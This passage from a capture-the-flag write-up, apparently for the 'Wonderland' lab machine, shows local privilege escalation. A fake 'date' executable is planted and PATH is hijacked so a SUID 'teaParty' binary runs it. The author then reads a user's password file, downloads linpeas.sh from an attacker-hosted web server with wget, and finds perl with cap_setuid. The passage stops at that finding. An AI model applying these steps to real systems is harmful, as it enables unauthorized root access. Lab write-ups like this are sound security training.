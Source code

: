 * I created a file called `date` with the content: ``/bash/bin`` , I marked the file as an executable with the command `chmod +x date`.

Running the file now will not work, since the file is not a python script like the `random` one. I had to change the path enviroment variable. I did by using the following command:

```shell
$ export PATH=/home/rabbit:$PATH
```

Now just run the script for change user :

```bash
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
```

---

# Root:

We found i file name [``password.txt``] is the password of the user hatter :

```bash
hatter@wonderland:~$ls
password.txt 
hatter@wonderland:~$cat password.txt
*********************
```

So i decided to use the script linpeas.sh. I downloaded the script on the machine by spinning up a webserver on my local machine and then using wget on the target machine:

```bash
$python3 -m http.server                                  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

*Target machine:*

```bash
$wget http://10.9.4.12:8000/linpeas.sh
--2022-10-29 13:20:09--  http://10.9.4.12:8000/linpeas.sh
Connecting to 10.9.4.12:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 765823 (748K) [text/x-sh]
Saving to: ‘linpeas.sh‘
linpeas.sh         100%[=============================>] 747.87K  83.7KB/s    in 8.6s  
2022-10-29 13:20:18 (87.1 KB/s) - ‘linpeas.sh’ saved [765823/765823]
rabbit@wonderland:/tmp$chmod +x linpeas.sh 
```

Linpeas returned with a lot of information, but only this was interesting for me:

```bash
....
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
.....
```
